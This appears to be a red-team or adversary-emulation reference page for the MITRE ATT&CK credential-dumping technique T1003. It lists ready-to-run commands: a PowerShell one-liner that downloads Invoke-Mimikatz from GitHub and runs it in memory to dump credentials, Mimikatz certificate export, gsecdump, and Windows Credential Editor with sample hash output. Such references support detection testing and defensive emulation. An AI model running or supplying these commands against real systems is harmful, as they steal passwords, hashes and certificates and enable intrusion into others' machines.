 # Credential Dumping

MITRE ATT&CK Technique: [T1003](https://attack.mitre.org/wiki/Technique/T1003)


## Powershell Mimikatz - Dump Credentials

Input:

    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

## Powershell Mimikatz - Dump Certificates

Input:

    PS> Import-Module Invoke-Mimikatz.ps1 
    Invoke-Mimikatz –command '"privilege::debug"' 
    Invoke-Mimikatz –command '"crypto::capi"' 
    Invoke-Mimikatz –command '"crypto::certificates /export"' 
  
## Gsecdump

[Gsecdump](https://www.truesec.se/sakerhet/verktyg/saakerhet/gsecdump_v2.0b5)

Input:

    gsecdump -a

## Windows Credential Editor

[Windows Credential Editor](http://www.ampliasecurity.com/research/windows-credentials-editor/)

Input:

    wce -o output.txt

Output:

    C:\>wce -o output.txt
    WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
    Use -h for help.

    C:\>type output.txt
    test:AMPLIALABS:01020304050607080900010203040506:98971234567865019812734576890102
    C:\>
